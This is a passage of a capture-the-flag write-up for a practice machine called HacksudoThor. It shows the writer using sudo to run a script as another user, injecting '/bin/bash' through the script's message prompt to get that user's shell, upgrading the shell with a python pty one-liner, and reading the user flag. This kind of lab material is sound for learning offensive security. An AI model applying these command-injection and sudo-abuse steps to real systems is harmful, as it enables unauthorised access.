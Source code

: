 > Run the script as `thor`:

```bash

bash-4.3$ sudo -u thor /home/thor/./hammer.sh

HELLO want to talk to Thor?

Enter Thor  Secret Key : 123
Hey Dear ! I am 123 , Please enter your Secret massage : /bin/bash

id
uid=1001(thor) gid=1001(thor) groups=1001(thor)


```
> The script can execute commands passed to it in the `secret massage` input field. Since the script runs with the `thor` user's privileges, we simply pass it the command to
> launch the `bash` shell, thereby entering the shell while maintaining the `thor` user's privileges.

> Upgrading the shell:

```bash

python3 -c 'import pty; pty.spawn("/bin/bash")'

```
```bash

thor@HacksudoThor:/usr/lib/cgi-bin$ cd /home/thor/
thor@HacksudoThor:~$ ls -lah

total 508K
drwxrwx--- 5 thor thor 4.0K Aug  2  2021 .
drwxr-xr-x 3 root root 4.0K Aug  2  2021 ..
-rw------- 1 thor thor 1.2K Oct  4 15:58 .bash_history
-rw-r--r-- 1 thor thor  220 Jul 29  2021 .bash_logout
-rw-r--r-- 1 thor thor 3.5K Jul 29  2021 .bashrc
drwx------ 3 thor thor 4.0K Jul 30  2021 .gnupg
drwxr-xr-x 3 thor thor 4.0K Jul 29  2021 .local
-rw-r--r-- 1 thor thor  807 Jul 29  2021 .profile
drwx------ 2 thor thor 4.0K Aug  2  2021 .ssh
-rw-r--r-- 1 thor thor    4 Aug  2  2021 file
-rw-r--r-- 1 thor thor   26 Aug  2  2021 file.sh
-rw-r--r-- 1 thor thor  10K Jul 29  2021 hack.tar
-rwxrwxrwx 1 root root  233 Jul 30  2021 hammer.sh
-rw------- 1 thor thor 1.9K Aug  2  2021 id_rsa
-rw-r--r-- 1 thor thor    8 Aug  2  2021 ll
-rwxr-xr-x 1 root root 436K Aug  2  2021 tar
-rw-r----- 1 thor thor   11 Jul 29  2021 user.txt

thor@HacksudoThor:~$ cat user.txt
user owned
thor@HacksudoThor:~$

```
